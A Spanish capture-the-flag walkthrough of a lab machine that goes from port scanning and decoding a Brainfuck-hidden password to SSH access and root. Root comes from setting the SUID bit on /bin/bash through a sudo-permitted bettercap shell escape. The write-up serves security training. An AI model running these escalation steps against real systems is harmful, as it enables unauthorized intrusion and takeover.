Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que nos mustra un servicio apache en el puerto 80. Vamos a ver que nos esconde.


Vemos que nos muestra la página por defecto  de apache. Vamos a analizar el código fuente. Vemso que al final nos muestra el siguiente código.
```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```


Vamos a buscar de que trata.


Vemos que trata del lenguaje `Brainfuck`. Vamos a decodificar el mensaje.


Vemos que el mensaje es `bebeaguaqueessano`. Esto es una potencial password.

Ahora vamos a realizar un fuzzing web para ver si hay algun directorio o archivo oculto.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```


Vemos que hay una ruta llamada `/imagenes`, vamos a ver que nos esconde. 


Vemos que hay una imagen llamada `agua_ssh.jpg`. Puede ser que contenga las credenciales del servicio `ssh`. Así que nos vamos a descargar la imagen para analizarla.

Tras analizarla, vemos que no contiene nada más. Ahora vamos a entrar por ssh.
```
ssh agua@172.17.0.2
password: bebeaguaqueessano
```


Ahora vamos a ver si hay algun binario con permisos de administrador.
```
sudo -l
```


Vamos a ejecutar el binario para ver que hace.
```
sudo /usr/bin/bettrcap
```


Vemos que es como una herramienta interactiva, vamos a ver si corresponde al comando `help`.


Vemos que en la penúltima opción nos permite ejecutar comandos.
```
!chmod u+s /bin/bash
```


Ahora saldremos y nos lanzaremos la shell de administrador.
```
exit

bash -p
```
